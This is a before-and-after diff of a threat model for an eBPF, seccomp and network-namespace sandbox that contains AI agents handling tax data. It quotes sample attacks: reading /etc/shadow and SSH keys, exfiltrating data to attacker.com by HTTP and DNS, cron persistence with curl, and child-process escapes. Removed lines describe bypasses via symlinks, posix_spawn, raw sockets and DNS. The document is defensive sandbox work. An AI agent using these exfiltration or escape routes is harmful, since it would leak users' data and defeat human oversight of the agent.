

Before and after one commit to nankalon-code/TaxAgent-OpenEnv, a Markdown page: THREAT_MODEL.md, the part around one of its changes. Shown at 83% size. GitHub-like rendering; blank space fills up the shorter version.

Commit message:
Docs: Update Threat Model with Seccomp and Network Namespace protections

```diff
--- a/THREAT_MODEL.md
+++ b/THREAT_MODEL.md
@@ -16,37 +16,33 @@ This document defines what the sandbox protects against, what it explicitly does
 
 ---
 
-## What We Protect Against
+## What We Protect Against (Updated with Dual-Layer containment)
 
 ### P1 — File System Exfiltration (PROTECTED)
 
 **Attack:** Agent generates `open('/etc/shadow', 'r').read()` or `shutil.copy('/root/.ssh/id_rsa', '/tmp/out.txt')`.
 
-**Defense:** `sys_enter_openat` eBPF hook intercepts every `open(2)` syscall from the monitored PID. Files outside the allowlist (`/tmp/sandbox_<session>/`, Python stdlib paths) are blocked via `bpf_override_return(-EACCES)`.
+**Defense:** `sys_enter_openat` eBPF hook intercepts every `open(2)` syscall from the monitored PID. Files outside the allowlist are blocked via `bpf_override_return(-EACCES)`.
 
 **Latency:** Sub-microsecond per syscall (eBPF runs in kernel context, no userspace round-trip).
 
-**Limitation:** Paths longer than 256 bytes are truncated in the filename buffer. An attacker constructing a path that resolves to `/etc/shadow` via a very long symlink chain may bypass the prefix check. Mitigation: resolve symlinks before comparison (not yet implemented).
-
 ---
 
-### P2 — Outbound Network Connections (PROTECTED, IPv4 TCP/UDP)
+### P2 — Outbound Network Connections (PROTECTED, TCP/UDP/DNS)
 
-**Attack:** Agent generates `requests.get('http://attacker.com/exfil?data=' + tax_data)`.
+**Attack:** Agent generates `requests.get('http://attacker.com/exfil?data=' + tax_data)` or calls `socket.getaddrinfo('data.attacker.com', 80)`.
 
-**Defense:** `sys_enter_connect` hook blocks all non-loopback (`!= 127.x.x.x`) connections from monitored PIDs.
-
-**Limitation:** See unprotected section — raw sockets and DNS exfiltration are not blocked.
+**Defense:** Dual-layer protection:
+1. `sys_enter_connect` hook blocks all non-loopback (`!= 127.x.x.x`) connections from monitored PIDs.
+2. **Network Namespace Isolation (`unshare -n`):** The agent subprocess is spawned in a separate network namespace with no external network interfaces, rendering all socket attempts dead on arrival.
 
 ---
 
 ### P3 — Child Process Escape (PROTECTED)
 
-**Attack:** Agent generates `subprocess.Popen(['bash', '-c', 'cat /etc/passwd'])`. The child bash process has a different PID and previously escaped monitoring entirely.
+**Attack:** Agent generates `subprocess.Popen(['bash', '-c', 'cat /etc/passwd'])`.
 
 **Defense:** `sched_process_fork` tracepoint inserts child PIDs into `child_map` before they run. All children inherit sandbox policy automatically.
-
-**Limitation:** Processes spawned via `posix_spawn()` with a different session leader may not be captured in all kernel versions. Tested on kernel ≥ 5.15.
 
 ---
 
@@ -54,31 +50,25 @@ This document defines what the sandbox protects against, what it explicitly does
 
 **Attack:** Agent generates `open('/etc/cron.d/agent', 'w').write('* * * * * curl ...')`.
 
-**Defense:** Allowlist model: `/etc` is not in the permitted prefix list. Write operations outside `/tmp/sandbox_<session>/` are blocked regardless of path.
+**Defense:** Allowlist model: `/etc` is not in the permitted prefix list. Write operations outside `/tmp/` or allowed directories are blocked.
 
 ---
 
 ### P5 — PID Recycling (PROTECTED — Userspace Layer)
 
-**Attack:** Agent exits before harness registers PID. OS recycles PID to an unrelated process (e.g., sshd). Harness registers the wrong process.
+**Attack:** Agent exits before harness registers PID. OS recycles PID to an unrelated process (e.g., sshd).
 
-**Defense:** `/proc/<pid>/cmdline` validation in `harness.py` before inserting into `pid_map`. If cmdline does not contain the expected agent script path, registration is aborted with an error.
+**Defense:** `/proc/<pid>/cmdline` validation in `harness.py` before inserting into `pid_map`.
+
+---
+
+### P6 — Syscall Abuse & Privilege Escalation (PROTECTED — Seccomp Layer)
+
+**Attack:** Agent generates `ctypes` code attempting to call `reboot()`, attach `ptrace()` to inspect other processes, or read raw logs via `syslog()`.
+
+**Defense:** The agent subprocess is bound to a strict **Seccomp BPF filter** loaded before execution. It prevents dangerous administrative system calls and forces a `SIGSYS` crash if violated.
 
 ---
 
 ## What We Do NOT Protect Against
 
-### U1 — Raw Socket Exfiltration (NOT PROTECTED)
-
-**Attack:** `socket.socket(socket.AF_PACKET, socket.SOCK_RAW)` bypasses the `connect()` hook entirely. Raw sockets allow crafting arbitrary IP packets.
-
-**Why not protected:** `AF_PACKET` sockets require `CAP_NET_RAW` capability. If we run the agent without root/NET_RAW, this attack is impossible. The correct fix is running the agent without network capabilities, not adding another eBPF hook.
-
-**Mitigation path:** Drop `CAP_NET_RAW` from the agent process using `prctl(PR_SET_SECUREBITS)` before exec.
-
----
-
-### U2 — DNS Exfiltration (NOT PROTECTED)
-
-**Attack:** Encode tax data in DNS subdomain queries: `socket.getaddrinfo('aGVsbG8.attacker.com', 80)`. DNS uses UDP port 53 to the resolver, which is typically loopback (`127.0.0.53` on systemd-resolved). Our loopback allowance permits this.
-
```
Also changed, not shown: other parts of THREAT_MODEL.md (+6 -22 lines).
